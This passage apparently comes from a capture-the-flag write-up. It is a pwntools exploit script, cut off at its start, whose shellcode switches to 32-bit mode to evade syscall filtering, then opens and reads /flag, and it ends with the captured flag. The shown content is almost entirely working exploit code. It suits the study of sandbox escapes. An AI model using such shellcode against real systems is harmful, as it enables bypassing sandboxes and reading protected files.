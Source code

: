 ```py
    mov rdi, r8
    mov esi, 0xc0182101
    mov edx, 0xcafec50
    syscall
    jmp parent_process

child_process:
    mov rcx,0x10000
wait_loop:
    dec rcx
    cmp rcx,0
    jne wait_loop
show_flag:
    mov rax, 0x230cafe000 + 0x180
    push rax
'''

flag_path_1 = hex(u32(b"/fla"))
flag_path_2 = hex(u32(b"g\0\0\0"))

X32_showflag =f'''
mov esp, 0xcafe300
xor eax, eax
mov eax, 0x5
push {flag_path_2}
push {flag_path_1}
mov ebx,esp
xor ecx,ecx
xor edx,edx
int 0x80

mov ebx, eax
mov eax, 0x3
mov ecx, esp
mov edx, 0xa00
int 0x80

mov ebx, 1
mov eax, 4
mov ecx, esp
mov edx, 0xa00
int 0x80

mov eax, 1
int 0x80
'''

shellcode = asm(shellcode)+b'\xcb'
context.arch = 'i386'
context.bits = 32
shellcode = shellcode.ljust(0x180,b'\0') + asm(X32_showflag)
context.log_level='debug'
# gdb.attach(p)
p.sendafter(": \n",(shellcode).ljust(0x1f0,b'\0')+b"/flag\0")
p.interactive()
p.close()
```

FLAG: `flag{8d13cfa357978684be9809172d3033ce739015f5}`